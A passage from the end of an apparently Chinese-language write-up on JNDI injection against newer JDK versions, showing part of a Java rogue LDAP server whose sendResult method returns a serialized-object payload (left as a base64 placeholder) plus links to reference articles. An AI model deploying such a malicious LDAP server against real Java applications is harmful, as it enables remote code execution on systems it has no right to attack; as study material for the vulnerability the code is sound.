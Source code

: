 ```java
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }

        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws Exception {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaSerializedData", Base64.decode("xxx"));
            //这里填入对应的base64编码
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}
```

## Reference

[如何绕过高版本JDK限制进行JNDI注入利用 (qq.com)](https://mp.weixin.qq.com/s/Dq1CPbUDLKH2IN0NA_nBDA)

[JNDI jdk高版本绕过—— Druid - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/10656#toc-8)

[探索高版本 JDK 下 JNDI 漏洞的利用方法 - 跳跳糖 (tttang.com)](https://tttang.com/archive/1405/#toc_0x04-deserialize)
